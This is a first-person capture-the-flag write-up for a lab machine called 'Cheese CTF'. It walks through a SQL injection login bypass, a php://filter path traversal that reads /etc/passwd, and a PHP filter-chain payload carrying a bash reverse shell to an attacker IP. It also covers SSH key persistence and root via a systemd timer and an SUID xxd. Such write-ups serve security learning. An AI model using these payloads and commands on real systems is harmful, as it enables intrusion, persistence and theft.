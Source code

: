 # Cheese CTF

### Flags

The website is about cheese: <br />
![image](https://github.com/user-attachments/assets/6570b944-15be-45be-b26f-cd57fa11a286)<br />
After moving a bit through the website and some basic enumeration, the only page that seems to be an entry point is the login page: <br />
![image](https://github.com/user-attachments/assets/3216996f-0906-4195-a5cc-c0f725089dfd)<br />
I started trying some basic SQL Injection techniques such as 'or 1=1--, but it didn't work. I even tried to use `sqlmap` but nothing, so I went back to manual enumeration. So, after one frustrating hour of trial and error, I was able to log in with the payload `' || 1=1;-- -`.<br />
The main thing that I learned with this is that, depending on the database, `||` substitutes `or`, and that it is a good practice to insert one more dash `-` to make sure that the comment symbol `--` gets parsed correctly. <br />
I am now inside an admin panel:<br />
![image](https://github.com/user-attachments/assets/7586859f-336d-46f6-8534-d2eeb665a90f)<br />
Moving a bit in the panel, I'm noticing some strange URLs:<br />
![image](https://github.com/user-attachments/assets/dc7e0d10-0957-4fca-b619-f2d165985e53)<br />
The server is using a **PHP wrapper filter**, which is a technique used to correctly read contents of a given file, even if it is encoded somehow. The first thing that came to my mind is to check for a path traversal vulnerability. So i used the following URL: `http://10.10.207.231/secret-script.php?file=php://filter/resource=../../../../../../../etc/passwd`, and it worked:<br />
![image](https://github.com/user-attachments/assets/773e114a-7848-498b-a85a-6b7329044952)<br />
Next, i tried to perform a RFI(Remote File inclusion) attack, by opening a web server on my machine and using the following URL: `10.10.207.231/secret-script.php?file=php://filter/resource=http://10.11.108.100/test.txt`. But it didn't work.
After some online search I found [this](https://github.com/synacktiv/php_filter_chain_generator/blob/main/README.md) github repo showing how to generate a php://filter payload for RCE. I copied the code in a file named `test.py` and used the following command to create a reverse shell payload: <br />
`python3 test.py --chain "<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/10.11.108.100/4444 0>&1\"'); ?>"`. <br />
So i copied the payload starting from "php://...." and put it inside the URL. So the final URL looked something like: `http://10.10.38.241/secret-script.php?file=php://filter/convert.iconv.UTF8......`. After opening a netcat listener, I got remote access(flags can be found at the end of this writeup):<br />
![image](https://github.com/user-attachments/assets/48cdd9d4-f15c-4921-ba9f-7e87c882d241)<br />
Now let's stabilize the shell:

    python3 -c 'import pty;pty.spawn("/bin/bash")'
    CTRL+Z
    stty raw -echo; fg
    export TERM=xterm
I'm still not able to get the user flag:<br />
![image](https://github.com/user-attachments/assets/1f5bb354-80df-432c-bad4-5932ddba24cb)<br />
However, enumerating comte's home directory, I found that I have write access to his `.ssh/authorized_keys` file. Therefore, what I can do is: 
1) generate a new key pair: `ssh-keygen -t rsa -b 4096 -f mykey`
2) copy the newly generated public key inside `.ssh/authorized_keys`: `echo "ssh-rsa PUB_KEY" >> /home/comte/.ssh/authorized_keys`
3) copy the private key inside the attacker's machine and change its permissions: `chmod 600 mykey`
4) Now log into comte's account via ssh: `ssh -i mykey comte@target_IP` <br />
![image](https://github.com/user-attachments/assets/2c93d5fc-013d-4996-809c-4499d00c71cf)<br />
After using linpeas to enumerate the system, this is what comes out: <br />
![image](https://github.com/user-attachments/assets/5dcce2a5-06a3-4cc5-b1ea-381a1fcdcd32)<br />
Just like cron jobs, systemd timers can be used to execute commands or scripts at specified time intervals. Also if I run `sudo -l`, this is what I get: <br />
![image](https://github.com/user-attachments/assets/128b651b-b23e-459a-94d8-c699db08b670)<br />
If we run `cat /etc/systemd/system/exploit.service` we can see what's the task made by this service:<br />
![image](https://github.com/user-attachments/assets/adbe6605-ef83-4204-8aa1-1cd574838405)<br />
It's apparently adding the SUID bit to a binary called `xxd`. However the .timer files has a misconfigured option which I corrected: to `OnBootSec=10sec`<br />
![image](https://github.com/user-attachments/assets/5b887301-5d29-45f3-8ad5-aae480224144)<br />
After that, I run:

        sudo /bin/systemctl daemon-reload
        sudo systemctl enable exploit.timer
        sudo systemctl start exploit.timer
If I now run `find / -perm -04000 2>/dev/null`, I get a new suid binary:<br />
![image](https://github.com/user-attachments/assets/556dc4f9-815f-4aa5-9135-ac751c1c20dd)<br />
The exploitation for this binary can be easily found on [GTFObins](https://gtfobins.github.io/gtfobins/xxd/#suid):<br />
![image](https://github.com/user-attachments/assets/992fc8bb-bdd2-4553-a9eb-58dbaa12c40e)<br />
So we can exploit this SUID to read any file we want. Here's how to read root.txt:<br />
![image](https://github.com/user-attachments/assets/2fa9466e-3399-4beb-bcf9-8bc0e32e9fd4)<br />
gg wp

